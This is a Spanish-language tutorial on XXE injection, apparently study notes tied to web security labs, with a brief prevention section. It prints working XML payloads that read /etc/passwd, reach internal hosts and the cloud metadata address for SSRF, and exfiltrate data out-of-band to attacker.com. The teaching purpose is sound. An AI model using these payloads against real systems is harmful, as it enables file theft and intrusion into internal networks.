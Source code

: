 # XML External Entity Injection

## 🔧 Qué es una vulnerabilidad XXE

Una **XXE injection** es una vulnerabilidad de seguridad web que ocurre cuando una aplicación procesa datos XML de forma insegura. Esto permite a un atacante:

* Leer archivos arbitrarios del servidor (como `/etc/passwd`).
* Realizar ataques SSRF.
* Exfiltrar datos de forma encubierta (blind XXE).

La causa principal es que muchos parsers XML soportan por defecto funcionalidades peligrosas como las **entidades externas**, sin requerir que la aplicación las use intencionalmente.

---

## 🤖 Qué son las entidades externas en XML

XML permite definir **entidades externas** en la sección `DOCTYPE`, que pueden cargar contenido desde archivos locales o URLs externas. Ejemplo:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Esta entidad `xxe` representará el contenido del archivo `/etc/passwd`, si el parser lo permite. Luego, podrá utilizarse en cualquier parte del XML como `&xxe;`.

---

## 🤷‍♂️ Por qué surgen las vulnerabilidades XXE

* Muchas aplicaciones utilizan XML para transmitir datos entre cliente y servidor (por ejemplo, en APIs SOAP o sistemas legados).
* Usan bibliotecas como `libxml`, `XMLParser`, etc. que admiten entidades externas por defecto.
* Si la configuración no desactiva esas funcionalidades, un atacante podrá aprovecharlas para manipular la forma en que se procesan los datos.

---

## 📊 Tipos de ataques XXE

### 1. ✅ **Lectura de archivos locales**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

Esto causará que el contenido de `/etc/passwd` se inserte en el lugar de `&xxe;` y sea devuelto en la respuesta si se incluye.

### 2. 📡 **SSRF)**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.service.local/admin"> ]>
```

Esto puede ser usado para escanear servicios internos o atacar metadata APIs (ej. `http://169.254.169.254` en AWS).

### 3. 🔒 **Blind XXE con exfiltración OOB (Out-of-band)**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/exfil?data=file:///etc/passwd"> ]>
```

El servidor hace la solicitud, filtrando información al dominio del atacante.

### 4. 💡 **Blind XXE por error**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;&invalid;</productId>
</stockCheck>
```

Puede generar errores que revelen partes del contenido si el parser no puede manejar el resultado.

---

## 🔢 Detección sistemática de XXE

En escenarios reales, el XML puede tener varios nodos. El atacante debe probar su entidad `&xxe;` en cada nodo individual y observar en cuál se refleja su valor. Por ejemplo:

```xml
<order>
  <client>&xxe;</client>
  <productId>42</productId>
  <comments>Urgente</comments>
</order>
```

---

[Lab: Exploiting XXE using external entities to retrieve files](1_Exploiting_XXE_using_external_entities_to_retrieve_files.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## XXE como vector de SSRF

Una de las implicancias más críticas de una vulnerabilidad XXE es la posibilidad de convertirla en un ataque de tipo **SSRF**. Este tipo de ataque permite forzar al servidor a realizar solicitudes HTTP (u otros protocolos) hacia recursos internos o externos sin autorización del atacante, utilizando la funcionalidad de análisis XML como canal.

### ¿Cómo se explota una XXE para realizar un SSRF?

Para explotar una XXE como un SSRF, el atacante define una entidad externa que apunta a una URL, como por ejemplo:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/">
]>
```

Luego, se utiliza la entidad `&xxe;` dentro de un campo del XML que sea procesado por el servidor:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://192.168.0.68/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Si la respuesta del servidor refleja el contenido recibido desde esa URL, se tratará de un SSRF **bidireccional**, ya que el atacante puede ver la respuesta del sistema interno en la respuesta del servidor. Si no hay reflejo de la respuesta pero el servidor realiza la petición, se tratará de un SSRF **ciego (blind SSRF)**.

### Ejemplos de objetivos posibles

* Servicios internos accesibles sólo desde la red local del servidor, como:

  * `http://localhost/admin`
  * `http://127.0.0.1:8080/`
  * `http://192.168.0.1:8000/internal`

* Endpoints REST sin autenticación que operan dentro del mismo entorno, como paneles administrativos o APIs de backend.

* Servicios en otros protocolos si el parser XML lo permite (como FTP, Gopher, etc.).

### Impacto de un XXE-SSRF

* Acceso a funcionalidades internas no expuestas públicamente.
* Bypass de controles de acceso basados en IP (por ejemplo, firewalls lógicos).
* Enumeración de puertos y servicios internos.
* Potencial escalada de privilegios o comprometer más sistemas en la red interna.

### Ejemplo práctico

Supongamos que en una aplicación vulnerable se puede subir una consulta XML al servidor, y el servidor analiza el contenido para devolver información de stock. El siguiente payload podría usarse para verificar si el servidor puede acceder a un panel interno:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "http://localhost:8080/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Si el servidor devuelve una respuesta con contenido HTML correspondiente a un panel de administración, entonces el ataque fue exitoso.

### Prevención

* Desactivar la resolución de entidades externas en los parsers XML.
* Usar librerías modernas que no permitan funcionalidades peligrosas por defecto.
* Aplicar listas blancas de destinos accesibles para el servidor.
* Revisar todos los servicios que procesan archivos XML.

---

Esta técnica XXE->SSRF es una de las combinaciones más peligrosas en ambientes empresariales, ya que permite a un atacante pivotear desde una vulnerabilidad aparentemente simple hasta acceder a infraestructura crítica.

---

[Lab: Exploiting XXE to perform SSRF attacks](2_Exploiting_XXE_to_perform_SSRF_attacks.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

